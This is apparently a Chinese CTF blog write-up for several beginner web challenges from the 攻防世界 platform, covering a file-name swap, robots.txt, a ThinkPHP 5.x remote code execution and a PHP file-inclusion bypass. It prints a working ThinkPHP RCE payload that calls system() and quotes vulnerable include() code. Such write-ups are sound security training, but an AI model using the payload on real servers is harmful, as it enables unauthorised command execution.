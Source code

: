 ﻿---
title: 攻防世界 web(一)
categories: ctf题目
---
## baby-web
- 考点：index.php

![](https://img-blog.csdnimg.cn/20210307162642583.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)


url 为1.php 修改为 index.php


---
## Training-WWW-Robots
- 考点：robots.txt协议

访问robots.txt,跳转 flag.php

---
## php-rce
- 考点：thinkphp 漏洞rce

![](https://img-blog.csdnimg.cn/20210307162924901.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
网上找thinkphp v5x漏洞

payload:
```
 ?s=index/\think\App/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat /flag
```

---
## web php_include
- 考点：文件包含

```bash
<?php
show_source(__FILE__);
echo $_GET['hello'];
$page=$_GET['page'];
while (strstr($page, "php://")) {
    $page=str_replace("php://", "", $page);
}
include($page);
?>
```

法一：

data 伪协议查询即可
